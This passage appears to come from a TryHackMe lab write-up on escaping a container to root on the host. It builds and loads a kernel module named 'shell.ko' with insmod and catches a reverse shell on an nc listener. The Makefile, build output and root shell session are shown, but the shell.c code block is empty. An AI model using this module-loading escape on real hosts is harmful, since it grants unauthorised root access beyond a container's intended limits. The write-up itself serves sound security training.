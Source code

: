 ```c
```
{: file="shell.c" }

We also create a `Makefile` to compile it on the target:

```make
obj-m +=shell.o
all:
	make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) modules
clean:
	make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) clean
```
{: file="Makefile" }

Now we can use `make` to compile our module as `shell.ko`.

```console
root@d221f7bc7bf8:/tmp# ls
Makefile  shell.c
root@d221f7bc7bf8:/tmp# make
make -C /lib/modules/6.8.0-1030-aws/build M=/tmp modules
make[1]: Entering directory '/usr/src/linux-headers-6.8.0-1030-aws'
warning: the compiler differs from the one used to build the kernel
  The kernel was built by: x86_64-linux-gnu-gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  You are using:           gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  CC [M]  /tmp/shell.o
  MODPOST /tmp/Module.symvers
  CC [M]  /tmp/shell.mod.o
  LD [M]  /tmp/shell.ko
  BTF [M] /tmp/shell.ko
Skipping BTF generation for /tmp/shell.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-6.8.0-1030-aws'
root@d221f7bc7bf8:/tmp# ls
Makefile  Module.symvers  modules.order  shell.c  shell.ko  shell.mod  shell.mod.c  shell.mod.o  shell.o
```

First, starting our listener:

```console
$ nc -lvnp 443
listening on [any] 443 ...
```

Now installing our module using `insmod`:

```console
root@d221f7bc7bf8:/tmp# insmod shell.ko
```

Going back to our listener, we can see a shell as `root` on the host and read the root flag at `/root/root.txt` to complete the room.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.14.101.76] from (UNKNOWN) [10.10.235.70] 43688
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@tryhackme-2404:/# id
uid=0(root) gid=0(root) groups=0(root)
root@tryhackme-2404:/# wc -c /root/root.txt
38 /root/root.txt
```
